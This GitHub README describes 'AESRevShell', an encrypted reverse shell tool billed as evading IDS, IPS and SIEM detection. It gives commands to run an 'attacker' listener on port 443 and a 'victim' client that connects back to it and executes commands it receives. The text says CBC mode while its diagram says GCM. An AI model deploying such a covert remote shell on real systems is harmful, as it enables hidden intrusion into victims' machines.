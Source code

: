 # AESRevShell
AESRevShell is a **secure reverse shell tool** that utilizes **Elliptic Curve Diffie-Hellman (ECDH)** for secure key exchange and **AES encryption (CBC mode)** to ensure encrypted communication between a client and a server. This project demonstrates a robust and secure way to establish a command execution environment, where commands issued by the server are securely transmitted to the client and executed, with responses being sent back in an encrypted format.

By leveraging **ECDH + HKDF** for key exchange and **AES encryption**, this tool is designed to bypass traditional security systems such as **Intrusion Detection Systems (IDS), Intrusion Prevention Systems (IPS), and Security Information and Event Management (SIEM)** systems, making it a powerful tool for penetration testing in environments with strict monitoring.

### **Key Features:**
- **ECDH Key Exchange:** Secure key exchange using Elliptic Curve Diffie-Hellman (ECDH) to prevent Man-in-the-Middle (MITM) attacks.
- **HKDF Key Derivation:** Derives a secure AES key and IV using HMAC-based Key Derivation Function (HKDF).
- **AES Encryption (CBC mode):** Encrypts all communication between the client and server.
- **Client-Server Architecture:** Reverse shell functionality with encrypted command execution.
- **Resistance to MITM:** ECDH ensures that even if an attacker intercepts the communication, they cannot decrypt the data.
- **Bypass of IDS/IPS/SIEM:** AES encryption hides the command and control traffic, making it difficult to detect by network monitoring systems.
```mermaid
sequenceDiagram
   participant Server
   participant Client
   Server->>Client: Public Key (ECDH)
   Client->>Server: Public Key (ECDH)
   Note right of Server: Derives shared secret
   Note left of Client: Derives shared secret
   Server->>Client: Encrypted (AES-GCM) Command
   Client->>Server: Encrypted Response
```
### **How It Works:**
1. **Key Exchange:**
   - The server and client generate their own ECDH key pairs (private and public keys).
   - They exchange their public keys and compute a shared secret using ECDH.
   - The shared secret is used to derive a secure AES key and IV using HKDF.

2. **Encrypted Communication:**
   - All commands and responses are encrypted with AES in CBC mode.
   - The server sends encrypted commands to the client, which decrypts and executes them.
   - The client sends the encrypted output back to the server.

3. **Secure Execution:**
   - The client executes commands in a secure environment and returns the encrypted output to the server.

## **Demos**
![image](https://github.com/user-attachments/assets/2a1486f1-7dfb-44fd-b0a8-893816e6de6f)
![image](https://github.com/user-attachments/assets/ec125041-cbcd-435a-9949-00a60fe581c1)

## **Installation**
1. Install dependencies:
   ```bash
   sudo apt update && sudo apt install -y python3-pip
   python3 -m pip install --upgrade cryptography
   ```

2. Clone the repository:
   ```bash
   git clone https://github.com/OusCyb3rH4ck/AESRevShell
   cd AESRevShell
   ```

3. Make the scripts executable:
   ```bash
   chmod +x client.py server.py
   ```

## **Usage**

#### **Server (attacker):**
Start the server (attacker) with the desired IP and port:
```bash
./server.py -i 0.0.0.0 -p 443
```

#### **Client (victim):**
Connect the client (victim) to the server:
```bash
./client.py -s SERVER_IP -p PORT
```

### **Security Features**
- **ECDH Key Exchange:** Prevents MITM attacks by securely exchanging keys.
- **HKDF Key Derivation:** Ensures unique and secure AES keys for each session.
- **AES Encryption:** Encrypts all communication to protect against eavesdropping.
- **No Manual Key Sharing:** Keys are exchanged securely without manual intervention.

### **Disclaimer**
This tool is intended for **educational purposes** and **authorized penetration testing** only. Do not use it for malicious purposes. The authors are not responsible for any misuse of this tool.

### **Contributing**
Contributions are welcome! If you have any suggestions, improvements, or bug fixes, feel free to open an issue or submit a pull request.

### **Author**
- [OusCyb3rH4ck](https://github.com/OusCyb3rH4ck)
